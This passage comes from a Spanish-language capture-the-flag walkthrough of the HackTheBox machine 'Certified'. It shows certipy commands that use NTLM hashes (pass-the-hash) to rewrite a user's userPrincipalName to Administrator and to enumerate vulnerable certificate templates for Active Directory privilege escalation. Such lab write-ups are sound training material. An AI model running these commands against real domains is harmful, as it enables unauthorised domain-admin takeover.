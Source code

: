 Ejecutamos el comando adaptado a nuestra máquina:

```bash
certipy account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
```

Y listo, hemos cambiado el "userPrincipalName" de "ca_operator" a Administrator:

![image](../zimages/Pasted_image_20250324000732.png)

Ahora nos dice que tenemos que realizar una petición al certificado vulnerable como "ca_operator":

![image](../zimages/Pasted_image_20250324000748.png)

Para hacer esto necesitamos el nombre de la plantilla, así que volvemos a listarla:

```bash
certipy find -vulnerable -username ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout
```

![image](../zimages/Pasted_image_20250324000846.png)

Y ahora adaptamos el comando, como no tenemos una contraseña, podemos cambiarla por el hash:
